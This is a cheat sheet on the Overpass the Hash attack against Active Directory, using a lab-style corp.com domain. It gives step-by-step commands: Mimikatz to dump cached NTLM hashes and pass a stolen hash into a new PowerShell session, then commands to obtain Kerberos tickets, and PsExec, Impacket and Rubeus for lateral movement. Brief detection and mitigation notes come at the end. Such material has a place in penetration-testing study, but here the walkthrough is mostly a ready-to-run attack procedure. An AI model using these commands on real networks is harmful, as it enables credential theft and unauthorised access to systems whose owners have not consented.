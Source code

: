 Here's a concise **Overpass the Hash (OtH) Cheat Sheet** with conditions for success, examples, and key details:

---

### **Overpass the Hash (OtH) Cheat Sheet**  
*Convert NTLM hashes to Kerberos tickets for stealthy lateral movement.*  

---

#### **Conditions for Success**  
1. **Cached Credentials**:  
   - Target user must have authenticated to the compromised machine (credentials cached).  
2. **Kerberos Availability**:  
   - Domain must use Kerberos (default in Active Directory).  
3. **Local Admin Rights**:  
   - Attacker needs local admin on the compromised machine to dump hashes.  

---

### **Steps & Examples**  

#### **1. Dump Cached Credentials**  
*Use Mimikatz to extract NTLM hashes:*  
```powershell
privilege::debug          # Elevate to DEBUG privileges
sekurlsa::logonpasswords  # Dump cached credentials
```  
**Output**: Look for `NTLM: 369def79d8372408bf6e93364cc93075` (jen's hash).  

---

#### **2. Generate Kerberos TGT**  
*Use Mimikatz to spawn a process with the stolen hash:*  
```powershell
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```  
- A new PowerShell window opens (still shows original user via `whoami` but has jen's Kerberos tickets).  

---

#### **3. Request Kerberos Tickets**  
*Trigger TGT generation by accessing a network resource:*  
```powershell
net use \\files04          # Access SMB share
# OR
dir \\dc01.corp.com\C$     # List directory
```  
**Result**: Kerberos TGT/TGS tickets are cached.  

---

#### **4. Verify Tickets**  
```powershell
klist  # List cached Kerberos tickets
```  
**Expected Output**:  
```plaintext
Ticket 0: krbtgt/CORP.COM@CORP.COM (TGT)  
Ticket 1: cifs/files04.corp.com@CORP.COM (TGS)  
```

---

#### **5. Lateral Movement with Kerberos**  
*Use tools that leverage Kerberos authentication:*  
- **PsExec (Kerberos)**:  
  ```powershell
  .\PsExec.exe \\files04 cmd.exe  # Uses cached TGS for auth
  ```  
- **Impacket (Linux)**:  
  ```bash
  impacket-psexec -k -no-pass corp.com/jen@files04
  ```  

---

### **Key Notes**  
- **Why `whoami` Doesn’t Change**:  
  - `whoami` reflects the **process token** (original user), but Kerberos tickets are stored in the **logon session**.  
- **Alternatives to `net use`**:  
  - Any Kerberos-authenticated action: `schtasks`, `sc.exe`, or accessing shares (`dir \\dc01\admin$`).  
- **Tool Alternatives**:  
  - **Rubeus**: `Rubeus asktgt /user:jen /domain:corp.com /rc4:369def79d8372408bf6e93364cc93075 /nowrap`  

---

### **Detection & Mitigation**  
**Detection**:  
- **Event ID 4768**: Kerberos TGT requests from unexpected users.  
- **Event ID 4624**: Logon Type 3 (Network) followed by Kerberos activity.  

**Mitigation**:  
- Restrict local admin privileges.  
- Enable **AES encryption** for Kerberos (disable RC4).  
- Use **LAPS** for unique local admin passwords.  
- Monitor for `sekurlsa::pth` (Mimikatz) usage.  

---

### **References**  
- [Microsoft Kerberos Docs](https://learn.microsoft.com/en-us/windows/win32/secauthn/ticket-granting-tickets)  
- [Mimikatz Guide](https://github.com/gentilkiwi/mimikatz/wiki)  

